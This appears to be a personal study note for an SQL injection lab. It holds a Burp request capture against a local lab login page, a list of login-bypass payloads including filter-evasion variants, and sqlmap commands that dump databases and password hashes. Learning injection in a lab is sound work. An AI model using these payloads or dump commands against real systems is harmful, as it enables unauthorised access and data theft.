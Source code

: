 
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## SQL Injection Checklist for Login Page : 

1. **Test Default Login :**

	- Since i am in the lab, the default creds are : `jeremy:jeremy`.

	- **In Burp Suite :**

```

## REQUEST

POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy

## RESPONSE


HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 04:48:21 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Sat, 02-Aug-2025 05:48:21 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


```

2. **Confirm SQLi Vulnerability (Authentication Bypass) :**

```
## - Test Basic Bypass in Repeater:

username=admin' OR 1=1#&password=jeremy
username=jeremy' OR 1=1#&password=jeremy
username=jeremy&password=' OR ''='# 
username=admin' OR '1'='1 -- &password=jeremy
username=jeremy%27%20OR%201=1%23&password=jeremy (encoded)

## - Handle Filters:
	- If ' is blocked, try:
	
username=admin" OR "1"="1#&password=jeremy
username=jeremy%27%20OR%20%271%27=%271%23&password=jeremy

	- If spaces are blocked, use /**/:
	
username=admin'/**/OR/**/1=1#&password=jeremy
```


## Use SQLMAP : 

```
POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy
```

1. Copy the req from Burp Suite and paste it in the txt file. `sql_req.txt`
2. `sqlmap -r request.txt --level=5 --risk=3 --batch --dump
	1. *If u have the cookie token from the request. Then you can add that cookie in the sqlmap cmd.*
	2. `sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=6967cabefd763ac1a1a88e11159957db" --level=5 --risk=3 --dump --batch`

```
#### Use with parameters:

- `--dbs` → list databases
- `--tables -D <db>` → list tables in a DB
- `--columns -T <table> -D <db>` → list columns
- `--dump -T <table> -D <db>` → dump data
- `--passwords` → try to get password hashes


```


